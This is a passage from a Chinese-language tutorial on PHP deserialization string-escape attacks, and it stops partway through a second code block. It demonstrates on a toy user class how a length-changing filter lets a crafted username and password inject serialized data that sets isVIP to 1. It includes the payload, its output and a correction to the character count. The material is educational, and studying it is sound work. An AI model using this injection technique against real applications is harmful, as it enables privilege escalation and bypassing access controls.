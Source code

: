 > **注意：**
>
> PHP反序列化的机制：不根据双引号判断一个字符串是否已经结束，而是根据前面规定的数量读取字符串。
>
> 例如，前面是规定了有10个字符，但是只读到了9个就到了双引号，此时PHP会把双引号当做第10个字符。

```php
<?php
class user
{
	public $username;
	public $password;
	public $isVIP;

	public function __construct($u,$p)
	{
		$this->username = $u;
		$this->password = $p;
		$this->isVIP = 0;
	}
}

function filter($s)
{
	return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```

```
输出结果：
O:4:"user":3:{s:8:"username";s:110:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}

hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"
此段字符长度为111
原因：替换之前目标子串的位置是123456，一共6个字符，替换之后目标子串47个字符，会造成计算的payload不准确
解决办法：多添加1个admin，补上缺少的字符。
```

```php
<?php
class user
{
	public $username;
	public $password;
	public $isVIP;

	public function __construct($u,$p)
    {
		$this->username = $u;
		$this->password = $p;
		$this->isVIP = 0;
	}
}

function filter($s)
```
